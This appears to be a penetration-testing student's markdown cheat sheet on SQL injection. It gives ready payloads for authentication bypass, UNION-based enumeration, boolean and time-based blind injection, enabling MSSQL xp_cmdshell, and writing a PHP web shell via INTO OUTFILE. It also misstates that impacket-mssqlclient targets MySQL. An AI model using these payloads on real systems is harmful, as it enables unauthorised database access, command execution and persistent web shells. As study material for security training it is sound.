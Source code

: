 # SQL Injection
```
SQL vulnerabilities typically allow the attacker to extend the original application query to include database tables that would normally be inaccessible.
```
### MySQL
- [MySQL Cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
- `MySQL` is one of the most commonly deployed database variants, along with `MariaDB`, an open-source fork of MySQL.
- `mysql` is a command-line tool that can be used to interact with MySQL instances.
### MSSQL
- [MSSQL Cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- `MSSQL` is a database management system that natively integrates into the Windows ecosystem.
- A Windows built-in command-line tool named `SQLCMD` allows SQL queries to be run through the Windows command prompt or even remotely from another machine.
- `impacket-mssqlclient` is a command-line tool that can be used to interact with MySQL instances on Kali Linux.
	```bash 
	# where `-windows-auth` keyword forces NTLM authentication (as opposed to Kerberos).
	impacket-mssqlclient [Username]:[Password]@[IP Address] -windows-auth
	```
### Manual SQL Exploitation
```bash
# provides visibility on payload, and also adds some protection against any kind of whitespace truncation
name' OR 1=1 -- //
```
- <mark>In-Band SQLi</mark>:
	```
	SQL injection is considered `in-band` when the vulnerable application provides the result of the query along with the application-returned value. 
	```
	- <mark>Error-based</mark>: use the information disclosed in error messages to gain insights into the internal workings of the system, which can then be used to craft more targeted and effective attacks.
		- `' or 1=1 in (select @@version) -- //
			- Use subquery to display extra information
	- <mark>UNION-based</mark>: Whenever we are dealing with in-band SQL injections, we should also test for `UNION-based SQL` injections.
		- For `UNION` SQLi attacks to work, we first need to satisfy two conditions:
			1. Injected `UNION` query has to include the same number of columns as the original query.
			2. Data types need to be compatible between each column.
		- Before crafting any attack strategy, we need to know the exact number of columns present in the target table.
			- `' ORDER BY 1 -- //`: 
				- orders the results by a specific column and will fail whenever the selected column does not exist.
				- One can discover the actual column number by increasing the column value by one each time.
		- After finding out the column number of the target table. One can craft the corresponding payload.
			- `' UNION SELECT null, null, database(), user(), @@version  -- //`:
				- column 1 is typically reserved for the ID field consisting of an _integer_ data type. Hence, one needs to place enumerating functions to the right-most place, avoiding any type mismatches.
- <mark>Blind</mark>
	```
	scenarios in which "database responses" are never returned and behavior is inferred using either boolean or time-based logic.
	```
	- <mark>Boolean-based</mark>: cause the web application to return different results based on the truth value of a certain condition.
		- `offsec' AND 1=1 -- //`:
			- `1=1`will always be `TRUE`, the application will return the values only if the user is present in the database.
	- <mark>Time-based</mark>: infer the query results by instructing the database to wait for a specified amount of time.
		- `offsec' AND IF (1=1, sleep(3),'false') -- //`:
			- The `IF` statement will execute and wait for 3 seconds only when the user is present due to early termination of  `AND`.
### Manual/Automated Code Execution
```
Depending on the operating system, service privileges, and filesystem permissions, SQL injection vulnerabilities can be used to read and write files on the underlying operating system.
```
- <mark>MSSQL Manual Code Execution with xp_cmdshell</mark>: 
	- Requires Database Administration Privileges.
	- `xp_cmdshell` function takes a string and passes it to a command shell for execution. The function is disabled by default but can enable by the following commands:
		```bash
		EXECUTE sp_configure "show advanced options", 1;
		RECONFIGURE;
		EXECUTE sp_configure "xp_cmdshell", 1;
		RECONFIGURE;
		EXECUTE xp_cmdshell "whoami";
		```
- <mark>MySQL Manual Code Execution with ` SELECT INTO_OUTFILE`</mark>: 
	- File location must be writable to the OS user running the database software.
	- `' UNION SELECT "<?php system($_REQUEST['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //`
-  <mark>Postgresql Authenticated Code Execution</mark>:
	- `CVE-2019–9193`